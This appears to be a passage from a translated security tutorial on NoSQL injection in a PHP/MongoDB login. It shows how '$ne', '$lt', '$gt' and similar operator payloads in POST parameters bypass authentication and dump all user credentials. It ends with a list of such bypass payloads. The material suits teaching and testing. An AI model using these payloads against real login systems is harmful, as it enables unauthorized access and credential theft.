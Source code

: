 ````sql
} else {
	echo 'Login Failed';
}
?>
```

- Simulated login admin user POST data
```a
username=admin&password=admin123
```
- After entering PHP, the data becomes
```php
array(
	'username' ='admin',
	'password' ='admin123'
)
```
- The query command executed after entering MongoDB is
````sql
db.users.find({'username':'admin', 'password':'admin123'})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
```
- From the above query code, we can see that there is no filtering and verification of the input. Here, we can use the `$ne` keyword to construct a permanent condition bypass to achieve Nosql injection

````sql
usernmae[$ne]=0&password[$ne]=0
```

![Insert the picture description here](https://img-blog.csdnimg.cn/9c3d555dd73b457daa4d8bd3e4c5a226.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/88e42bdebe6d443b91405454ab7fc57c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

- The query command executed after it is passed into MongoDB is

````sql
db.users.find({'username':{$ne:1}, 'password':{$ne:1}})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }
```

- Since username and password in the users collection are not equal to 1, all document data will be queried
- From the PHP perspective, due to its own loose array characteristics, after sending data of `value[$ne]=1`, PHP will convert it into an array `value=array($ne=>1)`. After entering mongoDB, the previous single `{'value':1}` query becomes `{'value':{$ne:1}}` query

- Similar Payload, commonly used to verify whether the website exists. The first step in Nosql injection
````sql
username[$ne]=0&password[$ne]=0
username[$lt]=0&password[$lt]=0
username[$lte]=0&password[$lte]=0
username[$gt]=0&password[$gt]=0
username[$gte]=0&password[$gte]=0
````